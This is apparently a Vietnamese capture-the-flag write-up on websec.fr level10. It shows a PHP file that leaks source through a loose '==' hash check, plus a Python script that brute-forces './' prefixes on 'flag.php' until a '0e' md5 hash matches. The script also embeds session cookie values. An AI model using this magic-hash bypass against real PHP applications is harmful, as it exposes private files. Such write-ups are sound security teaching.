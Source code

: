 ## websec.fr-level10

Hi mọi người, đây là bài public writeup đầu tiên của mình :D
Chủ đề của bài viết này chính là challenge level10 của websec.fr

Khi truy cập vào challenge, ta được cung cấp source của file index.php.

```php
<?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
  ?>

```

Đầu tiên biến $hash sẽ được gán bởi giá trị của hàm md5().

Biến $hash và $request được so sánh bởi '==', là 'Loose comparision' nên 2 giá trị sẽ được đưa về cùng một kiểu dữ liệu để so sánh. (các bạn có thể tham khảo tại đây: https://www.php.net/manual/en/language.operators.comparison.php)

Nếu giá trị 0e... được tạo ra bởi hàm md5() và được so sánh với với giá trị 0 được gán cho biến $request thì hàm if sẽ trở thành True. Khi đó ta có thể xem được nội dung của file flag.php thông qua hàm show_source().

Vì cách thức hoạt động của md5 khá phức tạp (các bạn có thể tham khảo tại: https://vi.wikipedia.org/wiki/MD5) nên ta ý nghĩ đầu tiên là brute-force input các giá trị truyền vào hàm md5() đến khi nào có được giá trị 0e... :D

Ta có liên tục thêm './' vào trước 'flag.php' thông qua param 'f' của biến $_REQUEST['f'] đến khi nào ra được giá trị mong muốn.

Mình sẽ viết script để exploit bằng python

```python
import requests

burp0_url = "https://websec.fr:443/level10/index.php"
burp0_cookies = {"PHPSESSID": "591crqib06blpuu9e5o4kvvae9e4vrqd", "session": "eyJjc3JmIjp7IiBiIjoiY0hKMFV6ZFVTWFl4V2k5cWFXaDZkRUpVVDBaWk5TOXVhaXQ1VkVKMWR6WlZVVEI0U1RJMGNtVjJaMUU1YVc0d2FqSmFZV2swVlRWaGVYTktSa05NWm5vNUsyWkdiWGR0YlVSQmMzRmphbmxaVTFNM1NrRTlQUT09In0sImxvZ2luIjoiZ29kZG9nIn0.FihOrQ.kNvf2Pbye6xIq98vu_0WY2IkBV8"}
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not;A=Brand\";v=\"99\", \"Chromium\";v=\"106\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Upgrade-Insecure-Requests": "1", "Origin": "https://websec.fr", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://websec.fr/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9"}
filename = "flag.php"
i = 1
while True:
     burp0_data = {"f":filename, "hash": "0"}
     r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
     if "Permission denied!" not in r.text:
          print(r.text)
          break
     else:
          print("Test: ", i)
     filename = "./"*i + "flag.php"
     i = i + 1
```

Brute-force sẽ hơi mất nhiều thời gian, nhưng chờ đợi là hạnh phúc :DD


Nếu có mình có sai sót gì về kiến thức hay bất kỳ vấn đề gì, xin hãy đóng góp qua mail: dangth2002@gmail.com. 

